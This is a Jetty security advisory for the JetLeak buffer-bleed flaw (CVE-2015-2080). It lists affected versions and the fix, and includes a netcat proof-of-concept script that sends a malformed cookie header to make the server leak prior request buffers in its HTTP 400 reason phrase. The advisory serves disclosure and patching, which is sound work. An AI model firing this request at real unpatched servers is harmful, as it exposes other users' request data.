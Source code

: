 HttpParser Error Buffer Bleed Vulnerability
===========================================

Published Date:
---------------

2015, Feb 24

CVE:
----

CVE-2015-2080

Discovered and Reported By:
---------------------------

[Gotham Digital Science](http://www.gdssecurity.com/) and Stephen Komal.

[JetLeak Vulnerability Remote Leakage of Shared Buffers in Jetty / blogs.gdsecurity.com](http://blog.gdssecurity.com/labs/2015/2/25/jetleak-vulnerability-remote-leakage-of-shared-buffers-in-je.html)


Affected Versions of Jetty:
---------------------------

  * 9.2.3.v20140905
  * 9.2.4.v20141103
  * 9.2.5.v20141112
  * 9.2.6.v20141205
  * 9.2.7.v20150116
  * 9.2.8.v20150217
  * 9.3.0.M0
  * 9.3.0.M1

Versions of Jetty Containing Fix:
--------------------------------

  * 9.2.9.v20150224

Patched version of jetty-http.jar:
----------------------------------

Patched version of the affected jetty-http jars are available as attachments on https://bugs.eclipse.org/460642

Statement:
----------

Jetty versions 9.2.3.v20140905 through 9.2.8.v20150217 have a ByteBuffer reuse and information bleed vulnerability surrounding bad HTTP request header parsing error responses.

History:
--------

Back in Jetty 9.2.3, a feature requesting more detailed logging messages surrounding problems parsing bad HTTP request headers ( https://bugs.eclipse.org/443049 ) was implemented.

The feature request was to include better debug information in the Jetty logs (at WARN level) to help diagnose and resolve HTTP parsing errors.

However, the implementation incorrectly exposes this debug information back on the HTTP 400 response reason phrase, potentially exposing parts of server side buffers used from prior request processing on the same server.

The following bash shell script demonstrates the problem using netcat on linux against the Jetty Distribution's demo-base.

```
#!/bin/bash

RESOURCEPATH="/test/dump/info"
BAD=$'\a'

function normalRequest {
echo "-- Normal Request --"

nc localhost 8080 << NORMREQ
POST $RESOURCEPATH HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Connection: close
Content-Length: 16

Username=Joakim
NORMREQ
}

function badCookie {
echo "-- Bad Cookie --"

nc localhost 8080 << BADCOOKIE
GET $RESOURCEPATH HTTP/1.1
Host: localhost
Coo${BAD}kie: ${BAD}

BADCOOKIE
}

normalRequest
echo ""
echo ""
badCookie
```

The results are often seen in the HTTP response such as ...

```
HTTP/1.1 400 Illegal character 0x7 in state=HEADER_IN_NAME in 'GET /dummy/ HTTP/... localhost\nCoo\x07<<<kie: \x07\n\n>>>e: application/x-...\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Content-Length: 0
Connection: close
Server: Jetty(9.2.8.v20150217)
```

What you are seeing is an http response phrase that includes raw ByteBuffer details on what happened during the parsing failure.

The parts of the output are in the general form
`{what_has_been_parsed}<<<{left_to_parse}>>>{old_buffer_seen_past_limit}`

The part at `{old_buffer_seen_past_limit}` is where this exposure of past buffers comes from.  It is this information where an exploit could be made to present random prior buffers from the server buffer pool.  This information can contain anything seen in a past handled request.

We have this problem already patched in Jetty 9.2.9.v20150224, and the same test as above results in ...

```
HTTP/1.1 400 Illegal character 0x7
Content-Length: 0
Connection: close
Server: Jetty(9.2.9.v20150224)
```

Everyone is strongly encouraged to upgrade to Jetty 9.2.9.v20150224 immediately.



